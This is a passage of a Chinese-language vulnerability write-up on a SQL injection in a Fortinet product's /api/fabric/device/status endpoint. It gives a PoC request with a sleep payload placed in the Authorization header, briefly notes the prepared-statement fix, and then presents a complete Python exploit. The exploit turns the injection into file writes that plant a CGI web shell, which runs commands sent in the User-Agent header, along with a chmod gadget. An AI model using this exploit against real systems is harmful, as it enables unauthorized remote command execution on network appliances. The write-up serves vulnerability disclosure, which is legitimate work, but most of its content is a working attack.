#5  0x000055e3fd988466 in ap_invoke_handler ()
#6  0x000055e3fda43534 in ap_process_async_request ()
#7  0x000055e3fda43763 in ap_process_request ()
```

`__isoc23_sscanf` 函数用于提取我们的输入——根据其格式字符串，它会在第一个空格字符处停止读取。这意味着我们不能在注入的查询中包含空格。利用 `/**/`进行输入即可。

即poc为

```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.75.23
Authorization: Bearer mowen'/**/or/**/sleep(5)--/**/-'
```

## 修复

在新版中都采用预编译





## exp

```
#!/usr/bin/env python3
import argparse
import binascii
from urllib.parse import urljoin

import requests
import urllib3

urllib3.disable_warnings()


class SQLInjection:
    def __init__(self, target: str):
        self._target = target
        self._buggy_api = '/api/fabric/device/status'
        return

    def inject_sql(self, injection: str) -> bool:
        rc = False
        # print(f'injecting :: {injection}')
        headers = {
            "Authorization": f"Bearer ';{injection}"
        }
        dst_url = urljoin(self._target, self._buggy_api)
        try:
            r = requests.get(dst_url, headers=headers, verify=False)
            rc = r.status_code == 401
        except Exception as e:
            rc = False
            print('Sending Request Failed: ',e)

        return rc


class RCE(SQLInjection):
    def __init__(self, target: str):
        super().__init__(target)
        self._target = target
        self._buggy_api = '/api/fabric/device/status'
        self._pyhook_path = '/cgi-bin/ml-draw.py'
        self._chmod_file = ""
        self._chmod_file += "import os # \r
"
        self._chmod_file += "os.system('chmod +x /migadmin/cgi-bin/x.cgi && rm -f /var/log/lib/python3.10/pylab.py') #"

        self._webshell = ''
        self._webshell += '#!/bin/sh -- \r
'
        self._webshell += 'printf "Content-Type: text/html\r\
";printf "\r\
";eval $HTTP_USER_AGENT'
        return

    def upload_webshell(self) -> bool:
        self._reset_tables()
        parts = self._split_payload(self._webshell)
        for part in parts:
            print(f'[*] writing part {part}')
            self.inject_sql(
                f'use/**/fabric_user;update/**/a/**/set/**/a=(select/**/concat(a,0x{binascii.hexlify(part.encode()).decode()})/**/from/**/a);--')

        print('[>] writing webshell file')
        self.inject_sql(
            "select/**/a/**/from/**/fabric_user.a/**/into/**/outfile/**/'/migadmin/cgi-bin/x.cgi'/**/FIELDS/**/ESCAPED/**/BY/**/'';--")

        # init tables
        self._reset_tables()

        # write content
        parts = self._split_payload(self._chmod_file)
        for part in parts:
            print(f'[*] writing part {part}')
            self.inject_sql(
                f'use/**/fabric_user;update/**/a/**/set/**/a=(select/**/concat(a,0x{binascii.hexlify(part.encode()).decode()})/**/from/**/a);--')

        # export content to file
        print('[>] cooking chmod gadget')
        self.inject_sql(
            "select/**/a/**/from/**/fabric_user.a/**/into/**/outfile/**/'/var/log/lib/python3.10/pylab.py'/**/FIELDS/**/ESCAPED/**/BY/**/'")

        print('[*] triggering chmod')
        return self._trigger_chmod()

    def run_cmd(self, cmd: str) -> bytes:
        rc = b''
        dst_url = urljoin(self._target, '/cgi-bin/x.cgi')
        try:
            r = requests.get(dst_url, verify=False,
                             headers={'User-Agent': cmd})
            rc = r.content
        except Exception as e:
            rc = False
            print('Sending Request Failed: '+e)

        return rc

    def _trigger_chmod(self) -> bool:
        rc = False
        dst_url = urljoin(self._target, self._pyhook_path)
        try:
            r = requests.get(dst_url, verify=False)
            rc = r.status_code == 500
        except Exception as e:
            rc = False
            print('Sending Request Failed: '+e)

        return rc

    def _split_payload(self, input_bytes):
        return [input_bytes[i:i+16] for i in range(0, len(input_bytes), 16)]

    def _reset_tables(self):
        self.inject_sql('drop/**/table/**/fabric_user.a;--')
        self.inject_sql('create/**/table/**/fabric_user.a/**/(a/**/TEXT);--')
        self.inject_sql('insert/**/into/**/fabric_user.a/**/values(\'\');--')


def main():
    parser = argparse.ArgumentParser(
        prog='exp.py',
        description='SQLi to RCE primitive',
    )
    parser.add_argument(
        '-t', '--target', help='i.e: https://target-host.com/', required=True)
    args = parser.parse_args()
    target_host = args.target

    pew = RCE(target_host)
    if pew.upload_webshell():
        print('[*] executing `id` ...')
        out = pew.run_cmd('id')
        print(out.decode())
        print('[*] webshell available at: ')
        print(f"   > {urljoin(target_host, '/cgi-bin/x.cgi')}"),
        print('provide command via the `User-Agent` header!)')
    else:
        print('[!] prolly failed :(')

    return


if __name__ == '__main__':
    main()
```

### 参考链接

<https://fortiguard.fortinet.com/psirt/FG-IR-25-151>
